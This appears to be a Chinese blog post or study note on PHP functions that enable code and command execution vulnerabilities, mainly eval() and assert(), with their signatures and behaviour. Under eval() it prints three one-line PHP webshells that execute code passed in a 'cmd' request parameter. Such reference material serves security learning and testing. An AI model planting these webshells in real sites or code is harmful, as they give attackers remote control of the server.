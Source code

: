 ```yaml
---
title: RCE常见函数
date: {{ date }}
top: false
cover: false
password:
toc: true
mathjax: true
summary:
tags: RCE
categories: RCE
---
```


# php代码/命令执行漏洞常见危险函数

### php代码执行相关

> 参考[php手册](https://www.php.net/manual/zh/index.php)

- eval()

  - 说明
    
    ```php
    eval(string $code):mixed
    ```
    
  - 将字符串`$code`作为php代码执行。常见的一句话木马：

    ```php
    <?php @eval($_POST['cmd']);?>
    <?php @eval($_GET['cmd']);?>
    <?php @eval($_REQUEST['cmd']);?>
    ```

  - 所有的语句必须以分号结尾

  - 可以用合适的PHP tag来离开、重新进入PHP模式

    ```php
    'echo "In PHP mode!"; ?>In HTML mode!<?php echo "Back in PHP mode!";'
    ```

- assert()

  - php5

    ```php
    assert( mixed $assertion[, string $description] ) : bool
    ```

  - php7

    ```php
    assert( mixed $assertion[, Throwable $exception] ) : bool
    ```

